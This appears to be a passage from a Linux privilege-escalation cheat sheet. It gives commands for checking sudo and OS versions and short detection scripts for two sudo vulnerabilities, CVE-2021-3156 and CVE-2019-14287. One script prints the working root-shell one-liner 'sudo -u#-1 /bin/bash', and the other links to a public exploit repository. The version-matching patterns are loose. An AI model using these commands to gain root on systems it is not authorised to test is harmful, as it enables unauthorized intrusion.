 ### Sudo Version Check
```bash
# Basic version check
sudo -V | head -n1

# Detailed version info
sudo -V | grep -E "(version|release)"

# Check for specific vulnerable versions
sudo -V | grep -E "(1\.8\.(31|27|21)|1\.9\.2)"
```

### OS Version Correlation
```bash
# Ubuntu version
cat /etc/lsb-release
lsb_release -a

# Debian version
cat /etc/debian_version

# Generic OS info
cat /etc/os-release
```

## 🚀 Quick Exploitation

### CVE-2021-3156 Quick Check
```bash
#!/bin/bash
version=$(sudo -V 2>/dev/null | head -n1 | grep -oE "[0-9]+\.[0-9]+\.[0-9]+")
if echo "$version" | grep -qE "(1\.8\.(31|27|21)|1\.9\.[0-2])"; then
    echo "[!] VULNERABLE to CVE-2021-3156: $version"
    echo "Download: https://github.com/blasty/CVE-2021-3156.git"
fi
```

### CVE-2019-14287 Quick Check
```bash
#!/bin/bash
version=$(sudo -V 2>/dev/null | head -n1 | grep -oE "[0-9]+\.[0-9]+\.[0-9]+")
if sudo -l >/dev/null 2>&1; then
    if echo "$version" | grep -qE "1\.[0-7]\.|1\.8\.(0|1[0-9]|2[0-7])"; then
        echo "[!] VULNERABLE to CVE-2019-14287: $version"
        echo "Exploit: sudo -u#-1 /bin/bash"
    fi
fi
```

## 🔧 Exploitation Scripts
